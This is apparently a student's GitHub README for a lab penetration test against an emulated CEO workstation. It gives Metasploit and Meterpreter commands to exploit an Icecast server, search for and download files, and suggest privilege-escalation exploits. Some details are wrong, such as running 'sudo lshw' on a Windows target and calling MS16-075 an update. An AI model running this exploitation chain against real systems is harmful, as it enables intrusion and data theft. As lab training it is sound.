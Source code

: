 # Penetration_Test_Engagement
Internal penetration test on GoodCorp's CEO, Hans Gruber. The objective is to exploit any vulnerable software and find company files on the CEO's computer.

#### Background

- The CEO claims to have passwords that are long and complex and therefore unhackable.
- The penetration test objective is to access the CEO's computer, and using a Meterpreter session, to search for two files that contain the strings `recipe` and `seceretfile`.

#### Setup 

- Logged onto DVW10 virtual machine.
- Icecast server started to emulate the CEO's computer. 

#### Scope 

- Limited to CEO's workstation only. Only the CEO's IP address can be exploited.
- No other IP addresses to be scanned
- DOS and brute force attacks are prohibited
- No file deletions permissible
- No config changes permissible

#### Deliverable

- All findings were submitted via a report called 'Report.docx'. [Report.docx](Report.docx)

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: 
      First, I needed to work out what IP address the CEO's computer was using. I knew that the network was using the 192.168.0.? range.
      I used 
      **nmap -sn 192.168.0.0/24**
      
      Having ruled out IP addresses using the 4th octet being 192.168.0.1, 192.168.0.10, 192.168.0.21, 192.168.0.22 and 192.168.0.8, I decided to investigate **192.168.0.20**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1702.png)      
      
      Then I used nmap
      **nmap -sV "192.168.0.20"**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1701.png)

2. Start SearchSploit

    - Run the SearchSploit commands to show available Icecast exploits.
  
      > Answer: 
      command to run is:
      **searchsploit icecast**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1703.png)
      
3. Start Metasploit

    - Run the command that starts Metasploit:
  
      > Answer: 
      command to run is:
      **msfconsole**
      
4. Search for the Icecast module and load it for use

    - Run the command that starts Metasploit:
  
      > Answer: 
      command to run is:
      **search icecast**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1705.png)
      
    - Run the command to use the Icecast module:
    
      > Answer: 
      command to run from Metasploit is:
      **use 0 (0 being the first (and in this case only) module available to be run. I used the shortcut so I did’t need to type or 'copy and paste' the full module name).**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1706.png)
      
      Next I ran the command to show what options were available within the module:
      **show options**

      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1707.png)
      
5. Set the 'RHOST' to the target machine

    - Run the command that sets the 'RHOST':
  
      > Answer: 
      command to run is:
      **set RHOSTS 192.168.0.20**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1708.png)
      
6. Run the Icecast exploit

    - Run the command that runs the Icecast exploit:
  
      > Answer: 
      command to run is:
      **run (exploit will also work)**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1709.png)
      
    - Run the command that performs a search for the `secretfile.txt` on the target:
  
      > Answer: 
      command to run is:
      **search -f *secretfile.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1710.png)
      
7. Now that a Meterpreter session is open:

    - Run the command to performs a search for the `recipe.txt` on the target:
  
      > Answer: 
      command to run is:
      **search -f *recipe.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1711.png)
     
    - Run the command that exfiltrates the `recipe*.txt` file:
    
      > Answer: 
      command to run is:
      **download Drinks.recipe.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1712.png)
      
      **I then used the ‘cat’ command to view the contents of both .txt files. The second txt file’s contents contains bank account details.**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1713.png)      
      
      **I then checked that the file has downloaded to my Kali VM:** (using **ls** command)
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1714.png)
      
8. Use Meterpreter's local exploit suggester to find possible exploits:

    - Check for common vulnerabilities:
  
      > Results: 
      I used Meterpreter to check for common vulnerabilities. 
      using the command
      **run post/multi/recon/local_exploit_suggester**
      
      Meterpreter discovered two possible vulnerabilities:
    
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1715.png)    
      
      **The two exploits of concern are
           **•	ikeext_service**
           **•	ms16-075**

      The ikeext services exploit module exploits a missing DLL loaded by the 'IKE and AuthIP Keyring Modules' (IKEEXT) service which runs as SYSTEM, and starts automatically in default installations of Vista-Win8. It requires an insecure bin path to plant the DLL payload.

      The ms16-075 exploit is a security update that resolves a vulnerability in Microsoft Windows that could allow elevation of privilege if an attacker logs on to the system and runs a specially crafted application.
       
#### Bonus
      
1. Run a Meterpreter post script that enumerates all logged on users.

    - **I googled meterpreter enumerate all logged on users**
    
      > Research:
      **I found the following blog helpful, and I tested various meterpreter commands:**
      https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
      
      > Answer:
      Meterpreter discovered two possible vulnerabilities:
    
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1716.png)   
      
2. Open a Meterpreter shell and gather system information for the target:     

      > Answer: 
      command to run is:
      **shell**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1717.png)
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1718.png)
      
3. Run the command that displays the target's computer system information:     

      > Answer: 
      command to run is:
      **sudo lshw**   
